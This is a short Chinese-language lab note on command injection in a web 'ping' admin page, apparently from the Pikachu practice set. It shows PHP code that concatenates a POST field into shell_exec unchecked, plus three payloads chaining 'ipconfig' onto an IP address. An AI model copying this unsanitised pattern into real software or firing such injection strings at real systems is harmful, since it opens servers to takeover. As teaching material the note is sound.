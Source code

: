 比如我们常见的路由器、防火墙、入侵检测等设备的web管理界面上

一般会给用户提供一个ping操作的web界面，用户从web界面输入目标IP，提交后，后台会对该IP地址进行一次ping测试，并返回测试结果。 而，如果，设计者在完成该功能时，没有做严格的安全控制，则可能会导致攻击者通过该接口提交“意想不到”的命令，从而让后台进行执行，从而控制整个后台服务器

### exec "ping"
**服务器端核心代码**
```php
if(isset($_POST['submit']) && $_POST['ipaddress']!=null){
    $ip=$_POST['ipaddress'];
//     $check=explode('.', $ip);可以先拆分，然后校验数字以范围，第一位和第四位1-255，中间两位0-255
    if(stristr(php_uname('s'), 'windows')){
//         var_dump(php_uname('s'));
        $result.=shell_exec('ping '.$ip);//直接将变量拼接进来，没做处理
    }else {
        $result.=shell_exec('ping -c 4 '.$ip);
    }
}
```

**漏洞利用**

可以拼接想要执行的命令
- payload: `127.0.0.1 && ipconfig`
- payload: `127.0.0.1 & ipconfig`
- payload: `127.0.0.1 | ipconfig`

![image](../../../img/渗透/实验/pikachu/24.png)
